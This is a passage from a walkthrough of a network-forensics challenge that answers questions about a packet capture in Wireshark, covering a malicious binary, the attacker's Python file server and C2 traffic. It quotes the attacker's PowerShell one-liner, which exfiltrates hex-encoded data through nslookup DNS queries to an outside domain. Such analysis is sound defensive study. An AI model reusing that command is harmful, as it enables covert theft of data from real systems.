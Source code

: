 **Answer: hex**

---

> ### What is the tool used for exfiltration?

Looking at everything we have so far we need to be looking at the **hex** results:

```bash
$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd
```

It looks to me like information is being split into stacks of 50 characters (for **DNS** ex filtration 50 is a safe amount - 63 is max) and then being pushed out as **DNS** queries using **nslookup.**

**Answer: nslookup**

---

> ### What software is used by the attacker to host its presumed file/payload server?

Let’s open the **capture.pcapng** file, it will open in **Wireshark** by default.

We already looked at and know about **cdn.bpakcaging.xyz** and **files.bpakcaging.xyz.**

The **files.bpakcaging.xyz** domain seems to me like the one we need to look at first.

I used this as a place to start when filtering with **Wireshark**:

![A screenshot of a packet analysis tool showing network traffic details. The table displays columns such as No., Time, Source, Destination, Protocol, Length, and Info. The HTTP traffic includes requests and responses, with some highlighted source and destination IP addresses.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755624101413/9dbe2fe3-e9cb-4760-956f-e2b04ac59cca.png align="center")

<div data-node-type="callout">
<div data-node-type="callout-emoji">💡</div>
<div data-node-type="callout-text">A good idea is to “bookmark” this search, hit that wee icon to left, give it a name. Hit it again to use this search. I created one for <strong>files.bpakcaging.xyz</strong> and <strong>cdn.bpakcaging.xyz.</strong></div>
</div>

I then followed the **TCP Stream** of **sq3.exe** as we already know about this binary.

The start of the result looks like:

![Screenshot of HTTP response headers and hex dump for an executable file named "sq3.exe". Details include user agent information, server type, content type, file size, and last modified date. Hex dump shows "MZ" and a DOS mode error message.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755624232690/c5958227-27ee-4736-b5be-c637c9575f4d.png align="center")

We can see `Server: SimpleHTTP/0.6 Python/3.10.7`.

**Answer: Python**

---

> ### What HTTP method is used by the C2 for the output of the commands executed by the attacker?

If we look at the **http** traffic going to the **C2** which I would guess is **cdn.bpakcaging.xyz.**

![A Wireshark network analysis screenshot displaying captured HTTP packets. The list shows packet details such as number, time, source, destination, protocol, length, and info. One packet is highlighted, with additional detailed data displayed below, including Ethernet, IP, and TCP headers.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755624661520/64db6a7a-e253-4dcd-9a41-2e684b5919fd.png align="center")

There are a bunch of GET requests, but if we look at one of the POST requests, we can see a section in Wireshark `HTML Form URL Encoded: application/x-www-form-urlencoded`
